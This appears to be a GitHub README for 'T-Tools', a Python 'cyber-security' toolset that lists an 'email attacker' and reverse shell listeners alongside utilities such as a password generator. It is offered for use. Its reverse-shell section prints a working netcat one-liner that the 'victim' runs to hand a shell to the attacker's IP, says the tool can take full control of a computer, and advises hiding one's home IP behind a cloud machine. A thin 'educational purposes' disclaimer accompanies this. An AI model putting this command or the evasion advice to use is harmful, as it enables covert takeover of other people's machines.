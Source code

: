 # T-Tools-advanced--cyber-security


# What is T-Tools

T-Tools is an advanced cyber-security tools set.


# What does it includes

What does it include for cyber-security

An email attacker
A web scrapper
An advanced  reverse shell listener
An advanced netcat shell logger

What does it include for normal work

It includes 

A random password generator
simple phone number locator

# Installation

 this works for almost every operating system
 
 In your terminal type these commands
 
    $ sudo install git
    $ git clone https://github.com/Hirukshacoder/T-Tools-advanced--cyber-security/
    $ cd T-Tools-advanced--cyber-security
    $ pip install -r requirements.txt
    $ python3 main.py
           
# Reverse shells 
 
To use the listener change the ip in net.py and run it to start listening

Makesure you add your ip to the victim's command.

* Guidlines 

* Always use a cloud linux machine or another os in the cloud, because when the victim type the command he can grab your home network ip.

* And this tool is only for educational purposes.

* This tool can take the full control of the computer.

* Another thing is that you can start listening on any port.
 
* Also you have to add your ip to the net.py as well as the victim's command.

* And you can use linode, aws or google cloud services to make your cloud machine.

    kali@attacker ~ $ python3 listen.py
    kali@victim ~ $ mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <add your ip> 9999 >/tmp/f  
           
Made with 💖 by THB
